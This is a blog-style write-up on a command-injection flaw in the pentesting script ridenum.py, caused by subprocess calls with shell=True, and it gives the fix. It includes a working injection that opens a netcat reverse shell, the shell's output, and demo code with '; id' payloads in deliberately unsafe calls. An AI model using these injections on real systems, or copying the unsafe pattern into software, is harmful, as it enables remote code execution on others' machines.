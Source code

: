 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Python's Risky Subprocess Module & Pwning A Pentesting Tool
_____________________________________________________________________

For some reason looking at other people's source code makes me feel all warm and fuzzy inside. Kinda of like the description a Millenial hipster gives you. You know, when they tell you how they sat down and read a 'good book' with a cup of gluten-free, 100% non-GMO, Rainforest Alliance Certified Coffee. 

Reading source code from other individuals can give you an insight into a lot of things like:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc.
  * What not to do when developing an application of any sort
  * What the alcohol choice was during development ;)
  
## Some Of Python's Dangerous Functions & Methods
Python is a fantastic language. It's one of my favorites along side PowerShell, and C#. However, like all computer languages it doesn't come without it's flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
 
The links above focus more in which a user is prompted to provide input via the `input` function in Python, etc. Leveraging command injection via command line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as it's a script that's only used by a specific group of individuals and you need access to run it locally. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the domain and local machine SID, but that's not really important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool is using `Subprocess.Popen` objects to execute a shell command. These appear on the following lines:
 * 62
 * 78
 * 111
 * 256

There are at least two arguments that helped me obtain code execution, which was the argument for the remote host's IP address and the `auth` argument. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (optional username + % + optional password) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken in to consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no no, especially if you allow a user to supply input to your script or program. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command.

Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little trickier. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This doesn't work, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of junk after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject a Netcat command to give us a reverse shell.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
ls
CHANGELOG.txt
LICENSE.txt
README.md
ridenum.py
```

Note the double quotes surrounding the `ip` argument. The string that represents the `ip` argument is evaluated by the `Popen` object. It's similar to how the `Invoke-Expression` cmdlet works in PowerShell. It evaluates a string that's valid syntax and executes it. Also note how I placed the `nc` command within the `ip` argument. Why do I need two `;`? If I don't add another `;` to terminate, `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after `-c bash` will keep the reverse shell alive until you exit it.

### More on the `auth` argument
There's an important point I want to address concerning command injection via the `auth` argument. Take a look at line 59 (`command = 'rpcclient -U "%s" %s -c "lsaquery"' % (auth, ip)`) on the github page for ridenum. Note that the data supplied for the `auth` argument is enclosed in additional double quotes. Thus, the argument will be treated as actual string rather than an actual bash command. To confirm this, I removed the double quotes that the `auth` argument (`user%pass`) was enclosed in and was able to obtain a reverse shell. So this means that command injection via the `auth` argument being used on line 59 will not be successful. However, on line 73 (`command = 'rpcclient -U "" %s -c "lookupnames %s"' % (auth, ip)`) a shell command call to invoke rpcclient is made again to use the lookupnames command, but this time the argument given for `auth` is not enclosed in double quotes. This is were the command will be injected if the `auth` argument is used for injection. Also take note that this time the `ip` argument is enclosed in double quotes.

## The Fix
Command/Shell injection via a Python script is really that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. In addition, breaking down the string referenced by the `command` variable into a list of strings would fix the issue also. Doing this will not treat each string value in subsequent indices as an argument to the string in the first indice. You could enclose arguments in literal quotes, but that's not really necessary if you implement the two former options.

For example changing `subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)` to `subprocess.Popen(["rpcclient", "-U", "{}".format(auth), "{}".format(ip), "-c", "lsaquery"], stdout=subprocess.PIPE)` removes the chance for command injection. `shell=False` does not have to be explicitly stated as it is a default.


#### You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```
